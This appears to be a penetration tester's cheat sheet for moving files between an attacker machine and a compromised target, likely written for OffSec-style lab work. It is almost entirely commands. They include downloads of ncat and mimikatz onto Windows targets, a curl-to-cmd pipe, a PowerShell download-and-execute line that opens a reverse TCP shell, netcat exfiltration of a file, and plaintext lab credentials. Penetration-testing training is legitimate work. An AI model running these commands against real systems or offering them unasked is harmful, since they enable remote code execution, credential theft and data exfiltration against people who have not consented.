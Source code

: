 

# C2

##### HTTP GET
```python
python -m SimpleHTTPServer $port
```

```python
python3 -m http.server $port
```

##### HTTP PUT
```python
python3 -m uploadserver --basic-auth-upload offsec:wandton
```

##### FTP
```
sudo systemctl start pure-ftpd
```
(Setup FTP Server on Linux: [isetup-ftp.sh](file:////home/kali/Documents/linuxAdministration/))

##### WebDAV
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/ATP23/webdav/
```

##### TFTP (Useful on XP)
```bash
sudo atftpd --daemon --port 69 /tftp` )
```


# On the target

##### HTTP
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/ncat.exe"
```

```bash
curl -X POST http://$tip:8000/upload -F 'files=@$filename' -u offsec:wandton
```

```bash
curl http://server/file.bat | cmd
```
##### SSH
```bash
scp $file $user@$hip:"C:\\Users\\$user\\Downloads"
```

```bash
scp $user@$hip:'C:\\Users\\$user\\Downloads\\data.zip' .
```

##### FTP
```powershell
echo "open 192.168.45.182 21" > ftp.txt; echo "USER offsec" >> ftp.txt; echo "alexrudolf" >> ftp.txt; echo "bin" >> ftp.txt; echo "GET ncat.exe" >> ftp.txt; echo "bye" >> ftp.txt; ftp -v -n -s:ftp.txt
```
(dir on linux: `/ftphome/`)
> Error `I won't open a connection to xx.xx.xx.xx (only to xx.xx.xx.xx)` means that passive mode is required. The windows ftp client does not support passive mode

##### TFTP (Useful on XP)
```powershell
tftp -i $ip put <filename>
```


## Download to Windows

```powershell
iwr -uri http://$hip/adduser.exe -Outfile adduser.exe
```

Download File (HTTP)
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$hip/$filename$','C:\Users\offsec\Desktop\wget.exe')"
```

```powershell
Invoke-WebRequest -Uri 'http://192.168.45.177:80/mimikatz32.exe' -OutFile 'C:\Users\marcus\Desktop\mimi32.exe'
```

Download and Execute String  (HTTP)
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$ip:$port/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress $ip -Port $port"
```



## Windows -> Linux

Netcat
```
nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file
```